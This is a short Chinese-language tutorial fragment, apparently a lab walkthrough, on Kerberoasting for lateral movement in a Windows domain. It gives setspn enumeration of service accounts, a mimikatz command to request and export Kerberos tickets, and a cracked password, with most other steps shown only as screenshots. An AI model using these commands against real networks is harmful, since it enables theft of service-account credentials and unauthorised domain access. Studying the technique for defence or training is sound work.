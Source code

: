 

案例2-域横向移动SPN服务,探针,请求,破解,重写

- 

```
https://www.cnblogs.com/backlion/p/8082623.htmo
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpxB7NFkavtet1UHVjWaLHXD2abwEKia7rQSosmkhq8SBZYDZ7bjURiaCQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



- 
- 
- 

```
#探针setspn -q */*setspn -q */* | finder "MSSQL"
```



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpDxoXuvHoz6VkJfa3Fa5icGI3BlQxLkjLqp17VyyzSHMOs9hic1BfS2Vg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpegYqU05B5aic4wKsujyaNKPFyicC4DsKcdlYpbpdWu2VdFezxNhdQ9zA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



请求:

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpt2EG6ic01MrHVCcBFavFOFuCtdib2Kv6iaUjjkTyciancrn4biaM0niaSJYA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpribDUAbM7DDzGnnzXr0eIxvJpRias85ud8ffcd2nYyCTv2eHXdtj1BibQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



导出

mimikatz.exe "kerberos::ask /target:xxxxx"

用mimi导出刚才请求生成的票据

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpyicE5C9cIvtwQ9UEdnzLlToLrxulrFs6iatFfHyG1LaLjywIaJicicppicA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



破解

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpRJCvdnkMfOaImpIRA7NPRqxekoSxAwhW1CbImOI1fpyh7cM2vEu2fg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

破解得到一个密码Admin12345

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpvvEYkvFc0MZu5qVA4ODBcnGAmXj1WAIjTIR2wibg0yU5TrPBF4ARhgw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



域控主机的环境信息

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibXAqM8ibM1I5CkdnJntwicJpY41tzYRgIwZGgw5Jp7vFg2d2EfbnelnIr3yc0ibrVGMhF2Y9g9icK2iaw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
